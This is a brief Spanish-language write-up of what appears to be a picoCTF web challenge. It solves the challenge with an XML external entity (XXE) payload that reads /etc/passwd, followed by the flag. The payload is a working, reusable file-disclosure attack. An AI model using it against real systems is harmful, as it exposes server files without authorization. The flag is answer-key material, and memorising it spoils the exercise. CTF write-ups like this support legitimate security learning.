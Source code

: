 
### Descripcion

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

### Solucion

```

Se utlizo la lectura de archivos con la vulnerabilidad de XXE en el cual leemos la direccion que nos dieron anteriormente

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
<ID>
&xxe;
</ID>
</data> 

picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}

```

### Notas



## Referencias